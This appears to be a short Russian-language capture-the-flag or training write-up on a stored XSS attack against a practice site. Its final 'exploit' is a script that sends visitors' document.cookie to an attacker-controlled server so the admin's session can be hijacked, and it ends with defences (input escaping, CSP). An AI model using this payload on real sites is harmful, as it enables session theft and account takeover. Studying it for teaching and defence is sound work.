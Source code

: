 # День второй (XSS)
-- -
### Цель атаки: 
Получить доступ к пользователю admin на сайте 

### Решение:

Отправив `<img>` обнаруживаем наличие XSS уязвимости. Используем тег `<script>` чтобы выполнить вредоносный JS код у
пользователей, зашедших на сайт. В скрипте пишем отправку куки сайта на наш сервер. Ждем, когда на сайт заходит admin,
воруем куки, авторизуемся. Done

### Итоговый эксплоит:
```html
<script>
    let xhr = new XMLHttpRequest();
    xhr.open('POST', '<аддрес нашего сервера>', true)
    xhr.send(document.cookie)
</script>
```

### Инструменты и полезные ссылки
- Потренироваться в написании скриптов можно тут https://jsfiddle.net/
- Список всех html5 тегов можно найти тут http://htmlbook.ru/html
- Как отправлять http запросы из JavaScript-а можно найти тут https://learn.javascript.ru/xmlhttprequest
- Запросы можно отправлять сюда https://ptsv2.com/

### Способ защиты
- Экранировать весь пользовательский ввод на сервере через специальные общеиспользуемые форматеры.
- Content Security Policy https://developer.mozilla.org/ru/docs/Web/HTTP/CSP
